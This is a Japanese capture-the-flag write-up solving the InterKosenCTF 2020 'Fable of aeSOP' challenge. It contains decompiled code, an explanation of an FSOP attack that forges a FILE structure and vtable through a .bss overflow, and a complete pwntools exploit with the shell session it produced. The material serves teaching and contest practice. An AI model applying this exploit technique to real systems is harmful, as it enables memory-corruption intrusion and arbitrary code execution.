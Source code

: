 ```yaml
---
tags: pwn, ctf
---
```


# InterKosenCTF 2020 - Fable of aeSOP

* 運営Writeup: <https://hackmd.io/@theoldmoon0602/ryUYvUQC8>
* 問題リポジトリ: <https://github.com/theoremoon/InterKosenCTF2020-challenges>
* これまでに解いた問題: https://hackmd.io/@Xornet/BkemeSAhU

## Writeup

### Outline

FSOP入門問題。libc 2.23なのでvtableが存在するアドレスのチェックは行われない。
ここに飛べばシェルあげるよっていう関数(win)があるアドレスをくれる、ついでにコードの配置アドレスをリーク出来る。
.bssセクションで任意長のBOFが出来、ここにファイルディスクリプタへのポインタがあるのでここを偽装したファイル構造体を指すよう書き換え、その中のvtableを指すポインタがwinのアドレスを敷き詰めただけのvtableを指すようにする。

### checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Binary

* libc: 2.23

Ghidraのデコンパイルは次の通り(main関数)

```c=
ulong main(void)

{
  long lVar1;
  long in_FS_OFFSET;
  bool bVar2;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  fd_DAT_00302260 = fopen("banner.txt","r");
  bVar2 = fd_DAT_00302260 != (FILE *)0x0;
  if (bVar2) {
    fread(&buf_DAT_00302060,1,0x200,fd_DAT_00302260);
    puts(&buf_DAT_00302060);
    FUN_00100ac9();
    fclose(fd_DAT_00302260);
  }
  else {
    perror("banner.txt");
  }
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return (ulong)!bVar2;
}
```

`banner.txt`を読んだ後に`FUN_00100ac9`へ飛んでいる。ここのデコンパイルは次の通り

```c=

void FUN_00100ac9(void)

{
  long lVar1;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  printf("<win> = %p\n",FUN_00100a5a);
  gets(&buf_DAT_00302060);
  puts(&buf_DAT_00302060);
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

```

まずwinというアドレスをくれる。察しが付くと思うのでデコンパイル結果は表示しないが、そこへ飛ぶとシェルが起動する(おめでとうメッセージも出力される)。
winはELFに含まれるのでこのアドレスからELFの配置アドレス(以下codebase)を特定出来る。

`gets`があるので自明なBOFが出来る。
ここでmainで用意したファイルディスクリプタ(以下fd)を指すポインタは`codebase + 0x202260`にあり(Ghidraだと何故か+0x100000されて`0x302060`ですがこれは謎の仕様なので無視します)、入力バッファは`codebase + 0x202060`なのでfdを指すポインタを上書き出来る。
というわけで入力バッファ上に適当に偽装したfdを用意し、そこを指すようにポインタを上書きする。また、偽装されたfdは当然vtableを指すポインタも偽装出来るので、同じく入力バッファ上に偽装したvtableを用意しそこを指すようにする。
このvtableは`fclose`に合わせて呼ばれるので`_IO_file_finish`や`_IO_file_close`にwinを設定すればよいが、面倒なので全部の関数ポインタにwinのアドレスを敷き詰めた(は?)

実際に送ったペイロードは次のような感じになっている。

```
codebase + 0x202060: fake fd
...                : padding
codebase + 0x202260: pointer to fake fd
codebase + 0x202270: fake vtable (only win address)
```

## Code

\_IO\_FILE構造体の偽装は[Pwn2Win CTF 2020 - At Your Command](/@Xornet/Bk6thFSxD)を殆どパクった(+gdbでメモリ覗いてそれっぽい値を入れた)。

```python=
from pwn import remote, process, ELF, p64, u64


if __name__ == '__main__':
    s = process("./chall")
    target = "pwn.kosenctf.com"
    port = 9003
    s = remote(target, port)

    s.recvuntil("<win> = 0x")
    win_addr = int(s.recvline().rstrip(), 16)
    print(hex(win_addr))

    offsets = {
        "win": 0xa5a,
        "buf": 0x202060,
        "fd_p": 0x202260
    }
    codebase = win_addr - offsets["win"]
    
    payload = b""
    fake_fd = p64(0xfbad1800)
    fake_fd += p64(0) * 13
    fake_fd += p64(3)
    fake_fd += p64(0) * 2
    null_addr = codebase + offsets["buf"] + 0x8
    fake_fd += p64(null_addr)  # _lock (null address)
    fake_fd += p64(0xffffffffffffffff)
    fake_fd += p64(0)
    fake_fd += p64(null_addr + 0x10)  # ???
    fake_fd += p64(0) * 3
    fake_fd += p64(0xffffffff)
    fake_fd += p64(0) * 2
    fake_fd += p64(codebase + offsets["fd_p"] + 0x10)  # pointer to fake_vtable
    fake_vtable = p64(win_addr) * 11 * 2

    payload = fake_fd + b"a" * (0x200 - len(fake_fd)) + p64(codebase + offsets["buf"]) + p64(0) + fake_vtable

    s.sendline(payload)

    s.interactive()
```

## Flag

当日は別のチームメイトが解いていましたが、まだ鯖が生きている上にFSOPだったという事以外聞いていなかったので自分で解きました

`KosenCTF{FS0P_1s_s1mpl3_4nd_fun!}`

Exploitを走らせた結果はこんな感じ(`xplt`は`python exploit.py`のエイリアスです)

```
$ xplt
[+] Starting local process './chall': pid 1162
[+] Opening connection to pwn.kosenctf.com on port 9003: Done
0x55da872c7a5a
[*] Switching to interactive mode

Congratulations!
$ ls
banner.txt
chall
flag.txt
redir.sh
$ cat flag.txt
KosenCTF{FS0P_1s_s1mpl3_4nd_fun!}
```

## 余談

最初WSL(16.04)でやっていたんですが、winのアドレスが`codebase + a5a`にあり、WSLはなぜか`codebase`が0x100000の倍数になるので(普通は0x1000の倍数)winのアドレスの下バイトが`0a5a`になってしまいました。
このせいでペイロードを送る際にwinのアドレスが改行文字判定になって送る事が出来ず、失敗したのでデバッグ無しで気合で通しました(は?)。

2.23の問題は最近のlibc強化のせいで結構見るのでぼちぼちWSL以外のまともな環境を用意したいところです(2.27だけある)

## 感想

FSOP入門、という感じの問題で良い復習(というかリハビリ)になりました。
だいたい[Pwn2Win CTF 2020 - At Your Command](/@Xornet/Bk6thFSxD)でやった事の簡易版です。あちらと違って2.23だとvtableのあるアドレスのチェックをしないので`_IO_str_overflow`や`_IO_str_finish`に飛ばさなくても雑なvtableを用意するだけで動いてくれます、楽。

出前味噌ですが、ここで何度か挙げているAt Your Commandの記事はFSOPに関して結構丁寧に書いたつもりなので2.27でFSOPがしたい人やそもそもFSOPとはなんぞやという人は是非読んでください
